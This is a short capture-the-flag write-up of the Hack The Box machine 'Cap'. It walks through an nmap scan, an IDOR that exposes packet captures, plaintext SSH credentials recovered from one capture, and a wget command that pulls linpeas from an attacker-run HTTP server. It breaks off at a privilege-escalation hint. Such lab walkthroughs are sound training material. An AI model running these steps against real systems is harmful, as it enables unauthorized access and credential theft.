 # Cap

Hi:) this is my first write up and I decided to chose easy machine **Cap** from HTB.

## Enumeration

Just starting with Nmap:

```
nmap -sVC 10.10.10.245
```

![nmap](https://github.com/user-attachments/assets/428de170-61a9-4b2b-be77-85d76d020844)

Here we can see 3 tcp ports and on one of them there is FTP, in the future it may be useful. But now let’s check the website. Add this to hosts file (or the site will not work):

```
10.10.10.245 cap.htb
```

## Checking HTTP (port 80)

![site1](https://github.com/user-attachments/assets/2632adb9-433d-40ae-a186-bbc7a642a361)

Wow, it's logged as user. Here we can see different pages: _**IP config**_ shows output of the `ifconfig` command, _**Network status**_ the output of the `netstat`, but the "Security snapshot" caught my attention.

![image](https://github.com/user-attachments/assets/1ccaa9f8-46dd-47cf-a25e-2798dde41062)

When downloading, we get a **6.pcap** file, by opening it with **wireshark**, we can see the network data. If we try to re-visit this page, we will see a different value in the address bar, I have this value `7`. And if we try to change this value ourselves, there will be another file. Well, this is [IDOR](https://en.wikipedia.org/wiki/Insecure_direct_object_reference).

Deciding to check each **pcap** file, I tried the value `0`, and yes! This one is different from the others.

![image](https://github.com/user-attachments/assets/b54cf197-700e-45ba-8001-1e227f15069f)

After analyzing it a little, I saw these lines:

![image](https://github.com/user-attachments/assets/0477b462-75ea-48b0-af83-fa7082b9e875)

Here we see requests in which the user _**Nathan**_ logs in and is successful, which means we can use this data.

### What we have at the moment? 
- Login: Nathan
- Password: Buck3tH4TF0RM3!


We've found out the most important thing, so now we can move on to logging in and searching for the flag.

Now we log in with this data, I will use SSH because it is more convenient, but you can also use FTP.

```
ssh nathan@10.10.10.245
```

![image](https://github.com/user-attachments/assets/dd52c114-7a7b-49d7-82a7-d14918ec18ce)

And here is our user flag.

## Privilege Escalation

![image](https://github.com/user-attachments/assets/98284242-7e7e-4e65-9392-9d934aca2e50)

As we can see, our **Nathan** does not have the ability to use `sudo`, so we use `linpeas`.

Launching our server on Python:

```
sudo python3 -m http.server 9999
```
and with `wget` getting `linpeas`:

```
wget http://10.10.14.139:9999/linpeas.sh
```

![image](https://github.com/user-attachments/assets/4ec087bf-b0e1-48c1-a4e7-091e7055277c)

Launching linpeas:

```
nathan@cap:~$ ./linpeas.sh
```
![image](https://github.com/user-attachments/assets/8367a5e4-c23a-4b19-9ccd-709f2034566d)

And that's the vulnerability, which means that with Python's help we can change Nathan's ID to Root's ID.

